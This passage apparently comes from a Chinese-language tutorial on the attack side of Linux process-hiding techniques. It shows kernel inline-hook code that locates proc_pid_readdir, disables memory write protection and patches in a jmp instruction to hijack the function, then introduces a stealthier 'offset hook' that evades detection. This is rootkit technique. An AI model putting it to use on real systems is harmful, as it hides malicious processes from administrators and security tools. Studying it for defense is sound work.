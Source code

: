 ![å¨è¿éæå¥å¾çæè¿°](进程隐藏技术的攻与防-攻篇_files/3caab1b1-78b8-401a-b52c-83e84ce9bb3e.png)

关于`jmp`的方法大概就是`近跳转(Near Jmp)`
```
jmp dst_address_offset 
```
而`dst_address_offset=目的地址 - HOOK点开始位置 - jmp指令占用地址(此命令共占用5个地址)`
> 5个地址是因为`jmp`指令占5个地址，而`hook`的目的就是把`jmp`指令替换掉原函数的开头。

首先就是获取原函数地址，这个在不讲其余办法的情况下依然优先选择`kallsyms`
```
origin_proc_pid_readdir = kallsyms_lookup_name("proc_pid_readdir");
```
为了后面卸载模块恢复，先备份将要被覆盖的前五个字节
```
unsigned char origin_readdir[5]={0};
memcpy(origin_readdir,origin_proc_pid_readdir,5);
```
构造跳转指令
```
unsigned char jmpop[5]={0xe9,0,0,0,0};
    ......
hook_offset = (unsigned long)new_proc_pid_readdir - (unsigned long)origin_proc_pid_readdir-5;
(*(unsigned long*)(jmpop+1))=hook_offset;
```
解除内存写保护后开始劫持
```
set_addr_rw();
memcpy(origin_proc_pid_readdir,jmpop,5);
set_addr_ro();
```
### Offset hook
> 基础技术都是通过覆盖原指令来进行劫持，但是这样容易通过查找`jmp`，`push ret`等指令查找出来，因此可以在不增加新的指令的情况下，直接修改offset来实现隐藏的目的。
